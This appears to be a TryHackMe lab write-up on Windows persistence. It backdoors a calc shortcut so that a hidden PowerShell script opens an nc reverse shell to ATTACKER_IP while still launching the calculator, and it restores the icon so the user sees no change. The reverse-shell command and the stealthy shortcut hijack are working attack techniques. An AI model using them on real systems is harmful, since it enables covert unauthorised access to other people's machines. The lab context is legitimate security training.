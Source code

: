 For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![calc properties](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/7a7349b9dcc5af3180044ee1d7605967.png) 

Before hijacking the shortcut's target, let's create a simple Powershell script in`C:\Windows\System32` or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the`-windowstyle hidden` option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

![backdoored lnk file](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/fe703ddea6135e0c867afcc6f61a8cd2.png) 

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```shell-session
user@AttackBox$ nc -lvp 4445
```

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. ![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)
Execute`C:\flags\flag5.exe` from your reverse shell to get your flag!


Once we do all that, we will get a shell as administrator:

![Pasted image 20250515163008.png](../../../IMAGES/Pasted%20image%2020250515163008.png)

Let's get our flag:

```
C:\flags>.\flag5.exe

THM{NO_SHORTCUTS_IN_LIFE}
```
